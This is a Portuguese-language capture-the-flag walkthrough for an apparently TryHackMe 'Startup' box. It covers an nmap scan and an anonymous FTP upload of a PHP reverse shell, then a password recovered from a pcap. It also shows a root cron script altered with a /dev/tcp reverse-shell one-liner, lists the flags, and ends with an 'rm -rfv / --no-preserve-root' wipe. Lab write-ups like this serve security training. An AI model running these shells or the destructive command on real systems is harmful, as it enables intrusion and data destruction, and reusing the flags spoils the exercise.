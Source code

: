 CTF STARTIUP 

Ao gerar o ip dei um nmap para ver as portas abertas

    nmap -A -sV IP

Encontrava-se 3 portas(ftp 21, tcp 22, tcp 80)

sendo o ftp anonymous era so entrar...

    ftp ip
    username: anonymous
    pass: no pass

Ao entrar no ftp encontrava-se 3 arquivos

    ftp
    notice.txt
    important.jpg

Ao ler o notice.txt encontrava-se um possivel username Maya
    
    cat notice.txt
    
Ao baixar a imagem e abri-la tinha um meme do among us...

    get important.jpg

Ao dar um gobuster para encontravar diretorios

    gobuster dir -u IP -w directory-list-2.3-small.txt -x php,html,txt

encontrava o /files que resultava no mesmo arquivo do ftp...

assim era so pegar um webshell, usei o do pentestmokey 

    https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Criei um arquivo no kali chamado shellphp.php 

    nano shellphp.php

Modifiquei o ip e a porta que e solicitado no codigo

e coloquei na pasta ftp

    put shellphp.php

Assim eu fiz o netcat

    nc -nvlp 1333

Ao abrir o IP/files/ftp cliquei para rodar esse codigo assim conseguindo acesso ao www-data

Conseguindo acesso a 1 flag do desafio "recipe.txt"

    cat recipe.txt

    Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
    
Procurando pelo sistema encontrei uma pasta chamado incidents ao dar um cd nessa pasta tinha um arquivo chamado

    suspicious.pcapng

Ao baixa-lo

    get suspicious.pcapng /var/www/html/files/ftp

Abrindo esse arquivo automaticamente abria o Wireshark um aplicativo de analise de rede

Olhando no Wireshark notei que ele mostrava alguns diretorios root, selecionei a opcao follow tcp e la dentro tenha uma requisicao da senha do www-data

    senha www-data c4ntg3t3n0ughsp1c3

Sendo essa a senha do www-data e como dentro do /home tinha um usuario chamado lennie era so fazer a conexao ssh com o user lennie

    ssh lennie@IP
    pass: c4ntg3t3n0ughsp1c3

Assim sendo possivel acessar a 2 flag "user.txt"

    cat user.txt
    THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

Ainda no usuario lennie tinha uma pasta chamada scripts ao abrir tinha um aquivo .sh

    planner.sh

O "planner.sh" executava um arquivo root dentro dele e tinha sua rota

    /etc/print.sh

Esse arquivo executava como root, sendo assim era so pegar uma reverse shell para conseguir ter acesso 

    https://www.revshells.com/

assim criando uma shell sh e modificando o arquivo "print.sh" com esse script

Script

    sh -i >& /dev/tcp/IPTRYHACKME/1333 0>&1

NetCat

    nc -nvlp 1333

Assim tendo acesso a pasta root que tinha o arquivo "root.txt"

    cat root.txt
    THM{f963aaa6a430f210222158ae15c3d76d}

Assim finalizando o desafio..

    touch dannydev19.txt
    rm -rfv / --no-preserve-root

FLAGS

    Flag 1: love
    Flag 2: THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
    Flag 3: THM{f963aaa6a430f210222158ae15c3d76d}

![image](https://user-images.githubusercontent.com/86691253/183748747-f4abcbe4-48b4-4b4f-b198-b87965cb371e.png)
